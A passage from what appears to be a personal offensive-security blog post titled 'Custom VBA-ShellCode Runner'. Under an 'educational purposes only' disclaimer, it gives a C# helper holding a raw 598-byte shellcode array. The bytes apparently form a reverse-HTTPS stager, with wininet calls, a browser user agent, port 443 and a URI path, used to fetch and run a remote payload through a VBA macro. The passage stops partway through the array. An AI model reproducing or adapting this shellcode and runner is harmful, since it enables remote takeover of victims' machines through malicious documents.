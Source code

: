 ```yaml
---
layout: post
title: Custom VBA-ShellCode Runner
categories: xdev
permalink: /:categories/vbarunner/
---  
```


All exploits are written my myself and are for educational purposes only, i would not be liable for any misuse!

###CUSTOM VBA SHELLCODE ENCRYPTER [HELPER] 
Generate a  vbapplication shellcode with the rat_helper.exe below
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace helper
{
	internal class Program
	{
		static void Main(string[] args)
		{
			byte[] buf = new byte[598] {
			0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x89,0xe5,
			0x8b,0x52,0x0c,0x8b,0x52,0x14,0x31,0xff,0x0f,0xb7,0x4a,0x26,0x8b,0x72,0x28,
			0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,
			0x75,0xef,0x52,0x8b,0x52,0x10,0x57,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,
			0x85,0xc0,0x74,0x4c,0x01,0xd0,0x50,0x8b,0x58,0x20,0x8b,0x48,0x18,0x01,0xd3,
			0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xc1,
			0xcf,0x0d,0xac,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,
			0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,
			0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,
			0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
			0x68,0x6e,0x65,0x74,0x00,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,
			0x07,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0xe8,0x3e,0x00,0x00,0x00,
			0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x57,0x69,
			0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x36,0x2e,0x31,0x3b,0x20,0x54,
			0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x37,0x2e,0x30,0x3b,0x20,0x72,0x76,0x3a,
			0x31,0x31,0x2e,0x30,0x29,0x20,0x6c,0x69,0x6b,0x65,0x20,0x47,0x65,0x63,0x6b,
			0x6f,0x00,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x03,0x53,0x53,
			0x68,0xbb,0x01,0x00,0x00,0xe8,0x2f,0x01,0x00,0x00,0x2f,0x2d,0x72,0x50,0x4c,
			0x44,0x55,0x7a,0x71,0x52,0x61,0x52,0x33,0x5a,0x33,0x5a,0x6d,0x46,0x53,0x77,
			0x54,0x6a,0x67,0x63,0x36,0x43,0x41,0x53,0x4a,0x50,0x39,0x51,0x6d,0x39,0x48,
			0x57,0x50,0x4c,0x33,0x35,0x77,0x6e,0x4f,0x44,0x51,0x6b,0x45,0x64,0x6d,0x38,
			0x34,0x4c,0x47,0x54,0x52,0x41,0x39,0x77,0x61,0x33,0x56,0x38,0x67,0x5f,0x4a,
			0x41,0x53,0x75,0x4f,0x4f,0x48,0x51,0x4b,0x71,0x78,0x5a,0x4c,0x67,0x71,0x59,
			0x4c,0x65,0x6b,0x53,0x57,0x67,0x62,0x51,0x66,0x4e,0x6f,0x51,0x49,0x32,0x35,
			0x73,0x72,0x4f,0x37,0x35,0x33,0x4e,0x39,0x47,0x79,0x6f,0x6b,0x4a,0x41,0x6b,
			0x4c,0x4e,0x79,0x58,0x33,0x74,0x61,0x72,0x66,0x36,0x66,0x31,0x63,0x6a,0x74,
			0x46,0x48,0x6d,0x46,0x72,0x67,0x41,0x4d,0x4a,0x44,0x35,0x53,0x45,0x63,0x61,
			0x74,0x6c,0x45,0x43,0x4d,0x6d,0x6b,0x67,0x63,0x71,0x49,0x6d,0x65,0x2d,0x66,
			0x6e,0x30,0x36,0x4a,0x00,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,
			0x53,0x68,0x00,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,
			0x2e,0x3b,0xff,0xd5,0x96,0x6a,0x0a,0x5f,0x68,0x80,0x33,0x00,0x00,0x89,0xe0,
			0x6a,0x04,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,
			0x53,0x53,0x56,0x68,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,
			0x88,0x13,0x00,0x00,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,
			0x4a,0x00,0x00,0x00,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x68,0x00,0x00,0x40,
			0x00,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,
```